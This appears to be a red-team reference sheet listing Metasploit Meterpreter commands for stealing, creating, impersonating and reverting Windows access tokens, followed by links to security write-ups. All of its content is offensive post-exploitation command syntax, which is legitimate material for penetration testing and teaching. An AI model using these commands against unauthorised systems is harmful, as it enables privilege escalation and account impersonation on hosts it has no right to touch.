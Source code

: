 # Metasploit

## 01 - Steal Token

```
meterpreter > steal_token <pid>
```

Enumerate current user and process identifier.

```
meterpreter > getuid

meterpreter > getpid
```

Drop token to revert back to original self.

```
meterpreter > drop_token
```

## 02 - Make Token

```
meterpreter > run post/windows/manage/make_token domain=<domain> username=<username> password=<password>
```

Enumerate current user with privileges.

```
meterpreter > getuid

meterpreter > getprivs
```

## 03 - Token Impersonation

List available usernames as delegation tokens to impersonate.

```
meterpreter > list_tokens -u

meterpreter > impersonate_token "<DOMAIN>\<username>"
```

List available groups as delegation tokens to impersonate.

```
meterpreter > list_tokens -g
```

Enumerate current user with privileges.

```
meterpreter > getuid

meterpreter > getprivs
```

## 04 - Revert Token

Revert back to original privileges.

```
meterpreter > rev2self
```

---
## References

- [Rapid7: Metasploit Framework Make Token Manage Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/make_token.md)

- [Pentestlab Blog: Token Stealing and Incognito](https://pentestlab.blog/2012/08/07/token-stealing-and-incognito/)

- [Demystifying Cobalt Strike’s “make_token” Command](https://research.nccgroup.com/2023/11/10/demystifying-cobalt-strikes-make_token-command/)

- [DMCXBlue Gitbook: Privilege Escalation Access Token Manipulation](https://dmcxblue.gitbook.io/red-team-notes/privesc/access-token-manipulation)

- [Exploit DB: Abusing Token Privileges For Local Privilege Escalation](https://www.exploit-db.com/papers/42556)